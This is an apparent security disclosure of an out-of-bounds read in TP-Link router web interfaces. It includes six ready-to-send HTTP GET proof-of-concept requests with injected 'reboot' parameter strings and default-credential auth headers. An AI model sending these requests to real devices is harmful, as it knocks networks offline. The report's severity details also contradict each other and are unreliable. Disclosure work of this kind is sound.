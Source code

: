 # TP-Link TL-WR940N/TL-WR841N/TL-WR740N/TL-WR941ND wireless router /userRpm/AccessCtrlTimeSchedRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer read out-of-bounds vulnerability exists in TP-Link TL-WR940N V4、TP-Link TL-WR841N V8/V10、 TP-Link TL-WR740N V1/V2、TP-Link TL-WR940N V2/V3 and TP-Link TL-WR941ND V5/V6 wireless router. Its /userRpm/AccessCtrlTimeSchedRpm component has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V4、TP-Link TL-WR841N V8/V10、TP-Link TL-WR740N V1/V2、TP-Link TL-WR940N V2/V3、TP-Link TL-WR941ND V5/V6  

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR940N is as follows:

```http
GET /ZYROEMCBUFENISDA/userRpm/AccessCtrlTimeSchedRpm.htm?time_sched_name=test&day_type=1&all_hours=on&||reboot=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/ZYROEMCBUFENISDA/userRpm/AccessCtrlTimeSchedRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V10 is as follows:

```http
GET /RODYEYNAKQNKXJXB/userRpm/AccessCtrlTimeSchedRpm.htm?time_sched_name=test&day_type=1&all_hours=on&Changed|CMD=$"reboot";$CMD=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/RODYEYNAKQNKXJXB/userRpm/AccessCtrlTimeSchedRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR740N is as follows:

```http
GET /userRpm/AccessCtrlTimeSchedRpm.htm?time_sched_name=WE&day_type=1&all_hours=on&||reboot=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/AccessCtrlTimeSchedRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2/TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/AccessCtrlTimeSchedRpm.htm?time_sched_name=1&day_type=1&all_hours=on&ChangedCMD=$"reboot";$CMD=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/ZRCEHZIAURWJWDTC/userRpm/AccessCtrlTimeSchedRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V3/TL-WR941ND V6 is as follows:

```http
GET /IOCGBYQCJARLTZQC/userRpm/AccessCtrlTimeSchedRpm.htm?time_sched_name=1&day_type=1&all_hours=on&&CMD=$'reboot';$CMD=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/AccessCtrlTimeSchedRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/AccessCtrlTimeSchedRpm.htm?time_sched_name=3raw4r&day_type=1&all_hours=on&||reboot=0&SelIndex=0&fromAdd=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49169
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49169/userRpm/AccessCtrlTimeSchedRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/AccessCtrlTimeSchedRpm component has a security vulnerability in processing the Changed GET key parameter. The Changed parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits the Changed parameter of this vulnerability to cause a buffer out-of-bounds read error, which may lead to memory-sensitive information disclosure and denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:

![](./imgs/fang.png)

![](./imgs/before.png)

![](./imgs/web.png)

![](./imgs/router2.png)

![](./imgs/router3.png)

![](./imgs/router4.png)

After sending the constructed PoC, the cache area read out of bounds and a BadVA error occurred, resulting in denial of service.

![](./imgs/read_err.png)

![](./imgs/after.png)

![](./imgs/err.png)

## 5. The basis for judging as a 0-day vulnerability

Searching the AccessCtrlTimeSchedRpm keyword in the NVD database did not find any vulnerabilities; searching the firmware model + parameter Changed keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.